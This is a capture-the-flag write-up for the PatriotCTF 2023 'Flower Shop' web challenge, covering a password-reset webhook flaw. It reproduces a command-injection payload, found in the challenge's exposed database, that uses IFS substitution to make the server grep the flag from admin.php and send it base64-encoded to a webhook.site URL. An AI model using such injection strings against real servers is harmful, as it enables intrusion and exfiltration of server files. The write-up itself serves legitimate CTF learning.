







# \[Web\] - Flower Shop

**NOTE** - just skip ahead to the [shortcut](#shortcut)
#### Difficulty = Medium
#### Points = Dynamic Scoring

## Prompt

Flowers!
Flag format: CACI{}

`http://chal.pctf.competitivecyber.club:5000/`

#### Provided Files
- [FlowerShop.zip](./files/patriotctf2023/FlowerShop.zip)

## Write Up

The index page has three forms which allow us to sign up, log in, and reset the password for our account on this web app.

The first thing that catches my attention is the webhook url required on the sign up page. The reset mechanism is probably the intended path for this challenge.  
  

From unzipping the zip archive I can see that there is an `admin.php`. This is the page that contains the flag as we can see on line #19. On line #10 we can see that we have to be logged in as admin to access this page.  
  

In line #36 of `/app/classes/dbh.php` we can see that the initial webhook set up for the admin is a dummy link. We need a way to overwrite this, probably an SQLi somewhere.  
  

The way the password reset works is that when a reset is requested, the web application will make a POST request to the webhook URL with a temporary password as the argument to `tmp_pass` parameter.

The temporary password is built using the following:
- 8 character random string -> randomness from `mt_rand()`
- unix time stamp seconds
- unix time stamp microseconds
- process pid 

##### Shortcut
I just realized that the sqlite database is publicly accessible. I downloaded it and checked the webhook of the admin account and it looks unchanged so that is not the intended path.  
  

I kept looking through the database and found the webhooks that other people have been using. Here is a very  interesting one:  
  
- `https://webhook.site/3712abfc-f3c3-4c98-adbd-e187eda1cc15?a=grep${IFS}CACI${IFS}../admin.php${IFS}|${IFS}base64` 

In the `/app/scripts/sendpass.php` file we can see that the temp password POST request is being done via `curl`, this person injected a command into the url that would read the flag from the `admin.php` file on the server side and encode it in base64 to escape the bad characters.

I signed up for a new account with my own webhook using the same command injection and sure enough I get the base64 encoded flag.  
  

Last step is to decode.
  

## Flag

`CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`